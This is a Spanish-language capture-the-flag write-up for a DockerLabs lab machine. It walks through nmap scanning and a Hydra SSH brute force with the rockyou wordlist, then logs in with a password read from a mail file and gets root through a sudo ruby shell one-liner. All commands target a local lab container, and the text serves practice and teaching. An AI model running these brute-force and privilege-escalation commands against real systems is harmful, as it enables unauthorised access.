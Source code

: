 ```yaml
---
layout: single
title: Trust - DockerLabs
excerpt: "Maquina Linux realizando intrusion por ataque de fuerza bruta al protocolo SSH"
date: 2024-05-17
classes: wide
header:
teaser: https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png
teaser_home_page: true
categories:

- DockerLabs
  tags:
- linux
- Muy facil
- Fuerza Buta
- Sudo

---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta y una escalada de privilegios sencilla

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

```css
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
ssh-hostkey:
   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
_http-title: Site doesn't have a title (text/html).
_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Solamente estan abiertos 2 puertos el 22 donde corre el servicio `SSH` y el 80 donde corre el servicio `http` con Apache, voy a ver que en el servidor web coloco la url `http://172.17.0.2`

![000Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/000Vacaciones.png)

carga un página en blanco, voy a revisar el código fuente presioando las teclas `ctrl + u`

![0001Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/001Vacaciones.png)

veo un mensaje, el cual me sirve para enumerar 2 posibles usuario Juan y Camilo, por lo tanto voy a realizar un ataque de fuerza bruta con estos usuario al servicio `SSH`.

Primero voy a crear un listado de usuarios con el editor de texto `nano` al que voy a llamar `usuarios.txt` y le voy agregar los posibles usuario que encontré anteriormente ahora si voy a realizar el ataque de fuerza bruta con `Hydra`

![002Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/002Vacaciones.png)

```bash
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -L        | ruta de lista de usuarios          |
| -P        | ruta del diccionario de contraseña |
| -t        | cantidad de hilos                  |
| ssh       | protocolo a realizar fuerza bruta  |

Consigo la contraseña del usuario camilo.

```css
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

# 2- Intrusion

Momento de realizar la conexión por SSH con las credenciales recién adquiridas

```bash
ssh camilo@172.17.0.2
```

procedo a buscar el correo que Juan le había dejado a Camilo usando la herramienta find

```bash
find / -iname *correo* 2>/dev/null
```

| parametro   | descripcion                                      |
| ----------- | ------------------------------------------------ |
| -iname      | para no distinguir entre mayúsculas y minúsculas |
| \*          | caracter comodin                                 |
| 2>/dev/null | para no mostrar los errores en pantalla          |

me arroja como resultado la siguiente ruta `/var/mail/correo.txt`

![004Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/004Vacaciones.png)

ejecuto `su juan` para cambiar al usuario juan e ingreso la contraseña que me indicó en el correo `2k84dicb`

# 3- Escalada de Privilegios

Ahora como Juan busco como escalar privilegios con `sudo -l` como resultado veo que tengo permisos para ejecutar el binario `ruby`

![005Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/005Vacaciones.png)

Me apoyo de la pagina [GTFObins](https://gtfobins.github.io/) para ver como escalar privilegios

ejecutando el siguiente comando

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Listo conseguí escalar privilegios, ahora soy el usuario root

![006Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/006Vacaciones.png)
